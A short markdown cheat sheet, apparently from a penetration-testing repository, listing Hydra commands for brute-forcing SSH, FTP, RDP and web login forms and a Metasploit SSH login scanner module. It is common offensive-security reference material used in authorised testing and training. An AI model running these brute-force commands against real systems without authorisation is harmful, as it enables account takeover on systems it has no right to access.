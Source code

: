 # Password Attacks
## Password Brute Force - Hydra
```bash
# SSH/FTP/RDP Brute Force
hydra -l <username> -P <password list> -t <thread count> <ssh|ftp|rdp>://<ip address>

# Post Request Login Form
hydra -l <username> -P <password list> -f -V <website> http-post-form "/<URI>:user=^USER^&password=^PASS^:<error text>"
```

## Password Brute Force - Metasploit
```bash
# SSH Brute Force Module (Accepts, User, Pass, and User:Pass)
use auxiliary/scanner/ssh/ssh_login
```



